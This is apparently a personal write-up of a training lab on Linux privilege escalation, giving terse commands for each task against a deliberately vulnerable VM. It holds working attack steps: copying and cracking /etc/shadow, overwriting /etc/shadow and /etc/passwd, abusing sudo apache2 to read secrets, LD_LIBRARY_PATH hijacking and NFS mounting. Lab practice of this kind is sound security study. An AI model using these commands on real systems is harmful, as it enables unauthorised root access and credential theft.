 # Linux PrivEsc

## :desktop: Deploy the Vulnerable Debian VM <a href="#title" id="title"></a>

### &#x20;#2 Run the "id" command. What is the result?

```
sshpass -p password321 ssh user@10.10.177.44
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 09-34-25.png>)

## :space\_invader: Service Exploits

### #1&#x20;

```
```

## :busts\_in\_silhouette: Weak File Permissions - Readable /etc/shadow

### **#1 What is the root user's password hash?**

```
scp user@10.10.177.44:/etc/shadow .
cut -d ':' -f 2 shadow | head -1 > sha512.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 09-43-11.png>)

### #2 **What hashing algorithm was used to produce the root user's password hash?**

```
sha512crypt
```

### #3 What is the root user's password?

```
hashcat -a 0 -m 1800 sha512.txt /usr/share/wordlists/rockyou.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 09-43-24.png>)

## :busts\_in\_silhouette: Weak File Permissions - Writable /etc/shadow

```bash
scp user@10.10.177.44:/etc/shadow .
openssl passwd -6 password1234
vim shadow
scp shadow user@10.10.177.44:/etc/shadow
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 09-57-34.png>)

## :key: Weak File Permissions - Writable /etc/passwd

### #1 **Run the "id" command as the newroot user. What is the result?**

```bash
scp user@10.10.177.44:/etc/passwd .
openssl passwd password
vim passwd
scp passwd user@10.10.177.44:/etc/passwd
ssh newroot@10.10.177.44 id
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 10-08-22.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-01 10-12-37.png>)

## :man\_superhero: Sudo - Shell Escape Sequences

### #1 **How many programs is "user" allowed to run via sudo?**&#x20;

![](<../../.gitbook/assets/Screenshot from 2020-09-01 10-17-35.png>)

### **#2 One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?**

```
apache2
```

### #3 **Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.**

```bash
sudo /usr/bin/apache2 -f /etc/shadow
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 10-23-33.png>)

## :man\_superhero: Sudo - Environment Variables

```
ldd /usr/sbin/apache2
gcc -o /tmp/libcrypt.so.1 -shared -fPIC tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 10-35-54.png>)

```
LD_LIBRARY_PATH=/tmp ldd /usr/sbin/apache2
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 10-36-49.png>)

## :file\_cabinet: NFS

```
mkdir -p /tmp/nfs
sudo mount 10.10.177.44:/tmp/ /tmp/nfs/
```

```
```

\#1&#x20;

## :link: Support Material

{% embed url="https://unix.stackexchange.com/questions/81240/manually-generate-password-for-etc-shadow" %}

{% embed url="https://gtfobins.github.io/" %}

